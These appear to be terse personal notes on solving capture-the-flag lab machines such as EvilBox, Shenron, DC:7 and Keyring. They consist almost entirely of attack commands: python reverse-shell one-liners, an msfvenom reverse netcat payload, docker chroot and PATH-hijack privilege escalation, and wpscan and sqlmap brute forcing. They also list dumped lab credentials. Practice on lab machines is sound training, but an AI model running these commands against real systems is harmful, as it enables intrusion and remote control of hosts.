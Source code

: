 <h1> Machines Notes </h1>
# EvilBox
FFUF: fuzzing for url parameter
ssh2john: to encrypt rsa key so that we can find password with john
ssh using rsa key
encrypting password to md5


# PWNED
sudo -u selena /home/messenger.sh
ssh -i id_rsa ariana@192.168.1.78
docker run -v /:/mnt --rm -it privesc chroot /mnt sh

# PYLINGTON
1. .CC is a source code file of c++

# SHENRON 
1. wpscan --url http://shenron --usernames admin --passwords /usr/share/wordlists/rockyou.txt
2. echo /bin/bash > netstat
3. export PATH=/tmp/:$PATH
4. shenron@shenron:/tmp$ chmod +x netstat
5. shenron@shenron:~$ ./network

# BLUEMOON

1. docker run -v /:/mnt --rm -it alpine chroot /mnt sh




# DC:7
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.106 lport=8888 R

Change ip 
sudo apt install metasploit-framework

# Beelzebub
47009.c exploit local privilege escalation
valac page
echo "bleezebub" | md5sum


# WEB:7
-> sqlmap -u url --forms --dbs --current-db
-> sqlmap -u http://192.168.1.146/enter_network/ --forms  -D machine --tables --level=1 --risk=3 --random-agent

# THM ContainMe-V4
-> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Keyring

-> ffuf -u http://192.168.0.115/history.php?FUZZ=flash -w /usr/share/wordlists/dirb/big.txt -b "PHPSESSID=rj7m62mbp4imcmpt596ghuh0os" -fs 0

PHPSESSID: aga6cj3gm29ojcn6sdjl37375d

<=======================================================>
$servername = "localhost";
	$username = "root";
	$password = "sqluserrootpassw0r4";
	$database = "users";

<==========================================================>
+--------+--------------------------+
| name   | password                          |
+--------+--------------------------+
| admin  | myadmin#p4szw0r4d       |
| flash     | 1234                                  |
| john      | Sup3r$S3cr3t$PasSW0RD    |
| mayank | mayank                             |
| web       | 1234                                 |
+--------+--------------------------+

-> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.110",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'





